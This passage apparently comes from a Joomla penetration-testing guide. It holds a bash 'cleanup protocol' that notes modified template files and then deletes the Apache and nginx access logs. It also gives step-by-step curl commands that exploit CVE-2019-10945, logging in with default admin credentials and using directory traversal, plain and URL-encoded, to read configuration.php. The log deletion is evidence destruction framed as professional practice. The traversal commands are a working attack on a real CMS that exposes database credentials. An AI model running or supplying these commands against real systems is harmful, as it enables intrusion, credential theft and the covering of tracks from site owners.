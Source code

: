 ### Post-Exploitation Template Cleanup

**Professional Cleanup Protocol:**
```bash
# 1. Document modified files
echo "Modified Files:" > cleanup_log.txt
echo "- /templates/protostar/error.php" >> cleanup_log.txt
echo "- Hash: $(md5sum error.php)" >> cleanup_log.txt

# 2. Remove injected code
# Restore original error.php content
# Remove backdoor parameters

# 3. Clear logs (if accessible)
rm -f /var/log/apache2/access.log
rm -f /var/log/nginx/access.log

# 4. Include in pentest report
# File location, hash, modification timestamp
```

---

## Core Vulnerability Exploitation

### CVE-2019-10945: Directory Traversal & File Deletion

**Vulnerability Details:**
- **Affected Versions:** Joomla 1.5.0 through 3.9.4
- **CVSS Score:** 7.2 (High)
- **Attack Vector:** Authenticated directory traversal
- **Impact:** File disclosure, arbitrary file deletion

#### Manual Exploitation

**Directory Traversal Attack:**
```bash
# Basic directory traversal
curl -X POST "http://target.com/administrator/index.php" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin&passwd=admin&task=login" \
  -c cookies.txt

# Exploit directory traversal
curl -b cookies.txt "http://target.com/administrator/index.php?option=com_templates&task=template.edit&id=506&file=../../../configuration.php"

# Alternative path traversal
curl -b cookies.txt "http://target.com/administrator/index.php?option=com_templates&task=template.edit&id=506&file=..%2f..%2f..%2fconfiguration.php"
```
